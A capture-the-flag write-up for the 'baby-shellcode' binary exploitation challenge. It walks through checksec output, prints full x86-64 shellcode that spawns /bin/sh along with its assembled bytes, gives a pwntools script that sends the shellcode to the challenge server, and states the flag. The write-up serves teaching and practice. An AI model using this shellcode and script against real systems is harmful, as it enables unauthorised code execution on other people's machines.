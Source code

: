 # baby-shellcode #

## Overview ##

Category: Binary Exploitation


Tags:  `#shellcode` `#pwntools` `#assembler` `#machine code` `#stack` `#x86-64` `#x86` `#amd64` `#little endian` `#Ghidra` `#checksec` 

## Description ##

This challenge is a test to see if you know how to write programs that machines can understand.

Oh, you know how to code?

Write some code into this program, and the program will run it for you.

What programming language, you ask? Well... I said it's the language that machines can understand.

nc 34.28.147.7 5000
## Approach ##


Began by disassembling the `baby-shellcode` binary within [Ghidra](https://ghidra-sre.org) and analysing the output.

Also checked the binary security with [pwntools](https://python3-pwntools.readthedocs.io/en/latest/index.html) `checksec` :

    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments


During the analysis of the disassembled binary, it became evident that, unlike previous instances, there is no shell function provided. This aligns with the challenge's requirements, indicating that we need to craft our own shellcode. To accomplish this, I utilized the pwntools library, which offers a collection of shellcode templates (pwn.shellcraft) and an assembler function (pwn.asm) to convert the shellcode into machine code.

The command pwn.shellcraft.sh() generates a shellcode that initiates a shell:

    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall

Following this, the pwn.asm(shellcode) function assembles the shellcode into machine code:

    b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'

This shellcode is then inserted into the stack and executed. Given that the stack is executable, there are no concerns regarding execution constraints.




## Solution ##



Final `pwntools` script used in the event :

    import pwn
    from pwn import*

    elf=pwn.ELF("./baby-shellcode")
    p=elf.process()
    r=remote("34.28.147.7",5000)

    pwn.context.binary=elf

    shellcode=pwn.shellcraft.sh()
    shellcode=pwn.asm(shellcode)

    r.sendline(shellcode)
    r.interactive()

After running the script, we can see that we have a shell. We can then use the `ls` command to list the files in the current directory, and `cat flag` to read the flag.


## Flag ##
`uoftctf{arbitrary_machine_code_execution}`
